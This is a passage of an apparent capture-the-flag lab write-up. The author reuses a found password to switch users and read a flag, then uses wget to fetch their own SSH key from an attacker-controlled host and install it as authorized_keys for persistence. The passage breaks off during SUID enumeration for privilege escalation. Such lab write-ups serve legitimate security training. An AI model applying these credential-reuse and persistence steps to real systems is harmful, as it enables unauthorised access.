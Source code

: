 Found user `admin:Th3s3usW4sK1ng`.

I check again for password reuse and voila! it works.

```bash
www-data@ubuntu:/dev/shm$ su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/dev/shm$ cd ~

theseus@ubuntu:~$ cat user.txt
e1f581979abca36c446d1da10441a6da
```

I generated a SSH key and added under `.ssh`.

```bash
theseus@ubuntu:~/.ssh$ wget 10.10.14.4/ghost.pub
--2022-11-15 08:56:47--  http://10.10.14.4/ghost.pub
Connecting to 10.10.14.4:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 569 [application/vnd.exstream-package]
Saving to: ‘ghost.pub’

ghost.pub           100%[===================>]     569  --.-KB/s    in 0s

2022-11-15 08:56:47 (67.5 MB/s) - ‘ghost.pub’ saved [569/569]

theseus@ubuntu:~/.ssh$ mv ghost.pub authorized_keys
```


# Privilege escalation

So the user `theseus` does not have sudo permission.

```bash
theseus@ubuntu:~$ sudo -l
[sudo] password for theseus:
Sorry, user theseus may not run sudo on ubuntu.
```

I looked for SUID files.

```bash
theseus@ubuntu:~$ find / -perm /4000 -type f 2>/dev/null | grep -v 'snap'
/usr/sbin/pppd
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chsh
/usr/bin/traceroute6.iputils
/usr/bin/arping
/usr/bin/vmware-user-suid-wrapper
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/bin/umount
/bin/fusermount
/bin/sysinfo
/bin/mount
/bin/su
/bin/ping
```